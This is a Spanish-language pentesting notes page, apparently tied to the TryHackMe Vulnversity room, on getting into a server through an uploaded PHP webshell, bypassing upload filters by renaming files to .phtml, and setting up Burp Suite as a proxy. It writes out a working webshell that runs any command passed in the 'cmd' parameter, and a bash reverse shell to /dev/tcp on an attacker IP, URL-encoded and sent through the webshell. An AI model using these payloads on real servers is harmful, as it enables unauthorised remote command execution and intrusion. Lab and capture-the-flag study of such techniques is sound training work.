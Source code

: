 ## Obtener Intrusión a Servidor Mediante uso de una Webshell

Una Webshell es un archivo que se sube a un servidor para la ejecución remota de comandos.

```bash
<?php
   echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Por lo que se podría hacer ahora.

```bash
http://<IP máquina víctima>/uploads/archivo.php?cmd=whoami
```

Para hacer URL una Reverse Shell en Burpuiste entrar en la opción de Decoder.

```bash
bash -c "bash -i>&/dev/tcp/<IP máquina atacante>/443 0>&1"
```

Tras esto dar a la opción **Encode as URL**.

```bash
http://<IP máquina víctima>/uploads/archivo.php?cmd=<URL encodeada>
```

## Bypass Restricción de File Upload

{% embed url="https://tryhackme.com/room/vulnversity" %}

Cuando no nos dejan subir un archivo en `.php` cambiamos la extensión a .`phtml` ya que a efectos prácticos es lo mismo.

```bash
mv pwned.php pwned.phtml
```

Realizamos fuzzing para ver donde se subió el archivo.

## Burp Suite – Modificar Peticiones HTTP

{% embed url="https://tryhackme.com/room/vulnversity" %}

Vamos a ajustes y configuramos el proxy de esta manera.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
